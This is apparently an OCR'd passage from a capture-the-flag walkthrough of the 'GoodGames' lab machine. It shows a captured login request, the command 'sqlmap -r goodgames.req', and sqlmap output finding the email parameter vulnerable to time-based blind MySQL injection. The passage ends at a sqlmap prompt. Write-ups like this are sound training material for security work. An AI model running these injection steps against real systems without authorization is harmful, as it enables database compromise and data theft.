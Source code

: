Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.48.140
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.48.140/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

email=admin@goodgame.htb&password=password
​
Notice we took the sql injection test out and instead of the basic  “admin” in email we actually enter the email,
After
sqlmap -r goodgames.req

​
sqlmap -r goodgames.req
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:00:30 /2025-01-30/

[15:00:30] [INFO] parsing HTTP request from 'goodgames.req'
[15:00:30] [INFO] testing connection to the target URL
[15:00:30] [INFO] testing if the target URL content is stable
[15:00:31] [INFO] target URL content is stable
[15:00:31] [INFO] testing if POST parameter 'email' is dynamic
[15:00:31] [WARNING] POST parameter 'email' does not appear to be dynamic
[15:00:31] [WARNING] heuristic (basic) test shows that POST parameter 'email' might not be injectable
[15:00:31] [INFO] testing for SQL injection on POST parameter 'email'
[15:00:31] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:00:32] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:00:32] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:00:32] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[15:00:32] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[15:00:32] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[15:00:32] [INFO] testing 'Generic inline queries'
[15:00:32] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[15:00:32] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[15:00:33] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[15:00:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:00:43] [INFO] POST parameter 'email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes?
​
